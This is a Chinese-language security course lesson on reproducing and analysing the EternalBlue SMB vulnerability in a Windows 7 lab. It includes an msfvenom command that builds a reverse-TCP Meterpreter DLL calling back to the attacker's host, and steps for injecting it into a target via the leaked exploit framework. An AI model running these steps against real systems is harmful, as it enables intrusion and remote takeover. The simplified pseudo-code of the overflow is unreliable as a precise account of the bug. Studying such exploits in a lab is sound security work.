







# 课程 P1：EternalBlue漏洞复现与分析 🧪

在本节课中，我们将学习如何复现与分析著名的“永恒之蓝”（EternalBlue）漏洞。我们将从搭建实验环境开始，逐步完成漏洞利用，并深入分析其背后的SMB协议漏洞原理。课程将结合工具演示与内核调试，帮助你理解这个影响深远的安全漏洞。

## 概述

永恒之蓝漏洞利用的是Windows SMB协议中的一个缓冲区溢出漏洞。本节课将分为两大核心部分：**漏洞复现**与**原理分析**。我们将使用Kali Linux、Windows 7虚拟机以及方程式组织泄露的利用代码来完成攻击演示。随后，我们将使用WinDbg和IDA Pro工具，深入内核调试，剖析漏洞触发和利用的具体过程。

## 第一部分：漏洞复现 🛠️




上一节我们介绍了课程的整体目标，本节中我们来看看如何实际操作，复现永恒之蓝漏洞。

### 实验环境准备




以下是复现漏洞所需的实验环境与工具清单：
*   **Kali Linux**：用于生成反向连接的DLL载荷。
*   **两台Windows 7虚拟机**：一台作为攻击机，运行利用脚本；另一台作为靶机。
*   **方程式组织泄露的利用文件**：包含永恒之蓝的利用脚本。
*   **Python 2.6环境**：用于运行利用脚本。

### 复现步骤

以下是完整的漏洞复现操作流程：
1.  **生成DLL载荷**：在Kali Linux上使用MSFVenom生成一个反向TCP连接的DLL文件。
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=[你的Kali IP] LPORT=4444 -f dll -o /tmp/evil.dll
    ```
2.  **准备攻击机**：将生成的`evil.dll`文件和方程式利用文件拷贝到Windows 7攻击机上。确保Python 2.6环境已配置。
3.  **运行利用脚本**：在攻击机上，进入方程式文件的`windows`目录，运行`fb.py`脚本。
    ```bash
    python fb.py
    ```
4.  **配置攻击参数**：根据脚本提示，依次输入靶机IP、攻击机IP，并创建一个新会话记录。
5.  **发起攻击**：在脚本菜单中选择永恒之蓝（EternalBlue）模块，并设置相关参数（如目标系统类型为Win7）。启动攻击，脚本将自动通过SMB协议向靶机的445端口发送攻击载荷。
6.  **注入后门**：攻击成功后，利用脚本提供的后门模块，将之前生成的`evil.dll`注入到靶机的某个系统进程（如`explorer.exe`）中。
7.  **建立控制**：在Kali上启动Metasploit监听，等待靶机回连。成功后，即可获得一个Meterpreter shell，拥有对靶机的控制权。




至此，我们完成了永恒之蓝漏洞的完整复现流程。攻击成功的关键在于利用脚本通过SMB协议发送的精心构造的数据包触发了靶机系统的漏洞。







## 第二部分：漏洞原理分析 🔬


上一节我们成功复现了漏洞，本节中我们来看看漏洞背后的技术原理。我们将重点分析SMB协议处理中的缺陷。

### 分析工具介绍

在深入分析前，先了解我们将要使用的核心工具：
*   **Wireshark**：用于捕获和分析网络流量，观察攻击数据包的结构。
*   **WinDbg**：强大的Windows内核调试器，用于动态跟踪和分析漏洞触发时系统的内部状态。
*   **IDA Pro**：交互式反汇编器，用于静态分析驱动程序（如`srv.sys`）的二进制代码。

### SMB协议与漏洞成因

永恒之蓝漏洞发生在Windows SMB协议驱动（`srv.sys`）处理`SMB_COM_TRANSACTION2`命令的子命令`TRANS2_QUERY_FILE_INFORMATION`时。具体流程如下：

攻击者发送的恶意SMB数据包请求转换`FEA (File Extended Attributes) list`到`NT`格式。漏洞函数`SrvOs2FeaListToNt`在处理此请求时存在逻辑错误。

以下是导致溢出的关键代码逻辑（伪代码表示）：
```c
int SrvOs2FeaListToNt(void *FEA_List) {
    uint32_t total_size = 0;
    uint32_t fea_list_size = *(uint32_t*)FEA_List; // 读取FEA列表长度
    uint16_t checked_size = (uint16_t)fea_list_size; // 关键：将32位长度强制转换为16位

    // ... 后续根据checked_size进行内存分配和拷贝 ...
    // 由于checked_size可能远小于实际的fea_list_size，导致分配缓冲区过小
    memcpy(dest_buffer, source_data, fea_list_size); // 实际拷贝使用原始大长度，造成溢出
}
```
**漏洞核心**：代码将32位的`fea_list_size`强制转换为16位的`checked_size`。在攻击载荷中，`fea_list_size`被构造为一个很大的值（例如`0x10000`），转换后`checked_size`变为`0x0000`。然而，后续的内存分配操作依据的是转换后的`checked_size`，而内存拷贝操作却可能依据原始的`fea_list_size`，从而分配一个小缓冲区却试图写入大量数据，导致**堆缓冲区溢出**。

### 内核调试与动态分析

为了验证上述分析，我们可以使用WinDbg附加到靶机内核进行调试。

1.  **设置调试环境**：配置Windows 7靶机为调试模式，并通过WinDbg建立内核调试会话。
2.  **定位漏洞函数**：在IDA Pro中分析`srv.sys`驱动，找到`SrvOs2FeaListToNt`函数地址。
3.  **下断点跟踪**：在WinDbg中对漏洞函数下断点。
    ```
    bp srv!SrvOs2FeaListToNt
    ```
4.  **触发与分析**：在攻击机再次发起攻击。当断点命中时，单步执行，观察寄存器值。
    *   检查`EAX`寄存器（通常指向`FEA_List`参数），查看其指向的内存中存储的长度值。
    *   跟踪执行流程，观察强制类型转换后长度值的变化。
    *   重点关注后续的`memcpy`类函数（如`RtlCopyMemory`）调用，验证源数据长度是否超过了目标缓冲区的大小。

通过动态跟踪，可以清晰地看到：由于长度校验失效，超长的`FEA`数据被复制到分配不足的缓冲区中，覆盖了相邻的堆内存块。攻击者通过精心构造，使被覆盖的内存区域包含一个可控制的函数指针，从而将执行流重定向到其部署的Shellcode，最终实现任意代码执行。

## 总结与思考 💡

本节课中我们一起学习了永恒之蓝漏洞的完整复现流程与深入原理分析。

我们了解到，该漏洞的本质是SMB协议驱动`srv.sys`中一个经典的**整数溢出**导致的**堆缓冲区溢出**。漏洞的触发点在于对用户输入的长度值进行了不安全的强制类型转换，而后续又没有进行充分的边界检查。



这个案例给予我们两点重要启示：
1.  **安全开发**：在处理用户输入，尤其是进行类型转换和内存操作时，必须进行严格且正确的边界校验。
2.  **漏洞研究**：对于历史上曾出现高危漏洞的协议或模块（如SMB），应作为重点审计对象，因为其中可能隐藏着同类或变种的漏洞。



希望本教程能帮助你不仅学会如何复现一个著名漏洞，更能理解其背后的机制，并启发你进行更深入的安全研究。